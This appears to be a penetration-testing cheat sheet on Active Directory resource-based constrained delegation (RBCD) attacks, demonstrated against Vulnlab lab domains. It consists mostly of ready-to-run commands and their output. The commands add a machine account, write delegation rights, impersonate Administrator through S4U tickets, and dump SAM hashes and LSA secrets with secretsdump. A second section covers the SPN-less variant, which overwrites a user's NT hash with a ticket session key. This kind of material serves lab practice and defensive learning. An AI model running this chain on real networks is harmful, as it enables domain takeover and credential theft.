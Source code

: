 # RBCD
### Enumerate MachineAccountQuota
```bash
➜  nxc ldap DC01.push.vl -u kelly.hill -p '<REDACTED>' -M maq
SMB         10.10.217.5     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:push.vl) (signing:True) (SMBv1:False)
LDAP        10.10.217.5     389    DC01             [+] push.vl\kelly.hill:<REDACTED>
MAQ         10.10.217.5     389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.10.217.5     389    DC01             MachineAccountQuota: 10
```
### Create a new machine account
```bash
➜  addcomputer.py -computer-name 'MEOW$' -computer-pass 'Summer2024!' -dc-host push.vl -domain-netbios push.vl push.vl/kelly.hill:'<REDACTED>'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account MEOW$ with password Summer2024!.
```
### Read the msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```bash
➜  rbcd.py -delegate-to 'MS01$' -dc-ip 10.10.217.5 -action 'read' 'push.vl/kelly.hill:<REDACTED>'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
```
### Write the attribute
```bash
➜  rbcd.py -delegate-from 'MEOW$' -delegate-to 'MS01$' -dc-ip 10.10.217.5 -action 'write' 'push.vl/kelly.hill:<REDACTED>'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] MEOW$ can now impersonate users on MS01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     MEOW$        (S-1-5-21-1451457175-172047642-1427519037-3602)
```
### Obtain a ticket
```bash
➜  getST.py -spn 'cifs/MS01.push.vl' -impersonate Administrator -dc-ip 10.10.217.5 'push.vl/MEOW$:Summer2024!'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
### Pass the ticket
```bash
➜  export KRB5CCNAME=Administrator.ccache
```
```
➜  secretsdump.py MS01.push.vl -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x1a2f736cde34f0733b3cc6f7ec68c413
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
...
```
# SPN-less RBCD
We can perform RBCD even if the MachineAccountQuota is set to 0
```bash
➜  nxc ldap phantom.vl -u svc_sspr -p '<REDACTED>' -M maq
SMB         10.10.123.78    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
LDAP        10.10.123.78    389    DC               [+] phantom.vl\svc_sspr:<REDACTED>
MAQ         10.10.123.78    389    DC               [*] Getting the MachineAccountQuota
MAQ         10.10.123.78    389    DC               MachineAccountQuota: 0
```
### Normal RBCD
Instead of passing a machine account in the `-delegate-from` option, we pass a normal user account
```bash
➜  rbcd.py -delegate-from 'wsilva' -delegate-to 'DC$' -dc-ip '10.10.123.78' -action 'write' 'phantom.vl'/'wsilva':'P@ssw0rd'  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty  
[*] Delegation rights modified successfully!  
[*] wsilva can now impersonate users on DC$ via S4U2Proxy  
[*] Accounts allowed to act on behalf of other identity:  
[*]     wsilva       (S-1-5-21-4029599044-1972224926-2225194048-1114)
```
### Obtain a TGT through overpass-the-hash to use RC4
```bash
➜  getTGT.py -hashes :$(pypykatz crypto nt 'P@ssw0rd') 'phantom.vl'/'wsilva'  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[*] Saving ticket in wsilva.ccache
```
```bash
➜  export KRB5CCNAME=wsilva.ccache
```
### Obtain the TGT session key
```bash
➜  python3 ~/tools/windows/impacket-pr/examples/describeTicket.py wsilva.ccache | grep 'Ticket Session Key'  
[*] Ticket Session Key            : e826a54fce399da484eae4b39c3bc72a
```
### Change the controlledaccountwithoutSPN's NT hash with the TGT session key
```bash
➜  smbpasswd.py -newhashes :e826a54fce399da484eae4b39c3bc72a 'phantom.vl'/'wsilva':'P@ssw0rd'@'DC.phantom.vl'  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[*] NTLM hashes were changed successfully.
```
### Obtain the delegated service ticket through S4U2self+U2U, followed by S4U2proxy
```bash
➜  python3 ~/tools/windows/impacket-pr/examples/getST.py -k -no-pass -u2u -impersonate "Administrator" -spn "cifs/DC.phantom.vl" 'phantom.vl'/'wsilva'  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[*] Impersonating Administrator  
[*] Requesting S4U2self+U2U  
[*] Requesting S4U2Proxy  
[*] Saving ticket in Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache
```
### Pass the ticket
```bash
➜  export KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache
```
```
➜  secretsdump.py DC.phantom.vl -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xa08cda6a38d423ba98b6f79cf6c7880f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
....
```
# Resources
- https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd
- https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
- https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users
- https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html
- https://www.youtube.com/watch?v=DH4dFwNTb9A&ab_channel=vulnlab
- https://seriotonctf.github.io/2024/07/14/Phantom-Vulnlab/
# Vulnlab Machines/Chains
- Phantom
- Heron
- Push
- Reflection
- Bruno
